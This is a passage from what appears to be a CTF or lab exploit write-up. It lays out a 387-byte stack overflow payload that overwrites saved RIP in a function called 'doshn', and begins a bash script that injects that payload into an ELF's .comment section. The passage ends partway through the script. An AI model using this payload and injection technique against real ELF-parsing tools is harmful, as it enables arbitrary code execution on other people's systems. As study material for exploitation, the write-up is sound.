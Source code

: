 ```python
    f.write(blob)

print(f"payload.bin is {len(blob)} bytes (should be 387).")
```

- **First `"("` at idx=0** sets `version_start = 1`.  
- **128× `"A"` at idx=1..128** fills `comment[0..127]`.  
- **Second `"("` at idx=129** sets `version_start = 130`.  
- **248× `"B"` at idx=130..377**  
  - idx=130..257 (128 bytes) refill `comment[0..127]`.  
  - idx=258..377 (120 bytes) overflow into locals and saved-RBP up through offset 247.  
- **8 bytes of `MANUAL_RIP` at idx=378..385** overwrite saved-RIP (offset 248..255).  
- **Final `")"` at idx=386** breaks the loop, preventing any further writes.

After that, `doshn` does a `ret`, and the CPU pops `0x004241f2` into `%rip`, redirecting execution.

---

## 4. Patching a Minimal ELF (`patch.sh`)

We start from a trivial C program:

```c
int main(void) {
    return 0;
}
```

Compile it (e.g., `gcc -no-pie -o exploit.elf exploit.c`) to produce a minimal ELF named `exploit.elf`. That ELF automatically has a `.comment` section (filled with compiler version strings). We will remove that section and replace it with our `payload.bin`.

```bash
#!/usr/bin/env bash
#
# patch.sh
#
# 1) Removes any existing .comment section from exploit.elf.
# 2) Injects payload.bin as a new .comment section (with ALLOC flag).
# 3) Patches .comment’s sh_size field to be 0x7f (127).
#
# Usage:
#   1) Generate payload.bin as shown above.
#   2) Update FILE, PAYLOAD, E_SHOFF_HEX, COMMENT_SEC_IDX below.
#   3) chmod +x patch_and_inject.sh && ./patch_and_inject.sh
#   4) Verify with `readelf -S exploit.elf | grep .comment`
#

##### -- USER‐EDITABLE SECTION ----------------------------------------------------

FILE="exploit.elf"         # The ELF to patch
PAYLOAD="payload.bin"      # The malicious payload

# From `readelf -h exploit.elf`:
#   Start of section headers: 0x<hex>
E_SHOFF_HEX="0x4768"

# From `readelf -S exploit.elf | grep "\.comment"` (before patch):
#   [ 25] .comment …
COMMENT_SEC_IDX=25

##### -- END OF USER‐EDITABLE SECTION --------------------------------------------

# 1) Remove any existing .comment
objcopy --remove-section .comment "$FILE" 2>/dev/null || true

```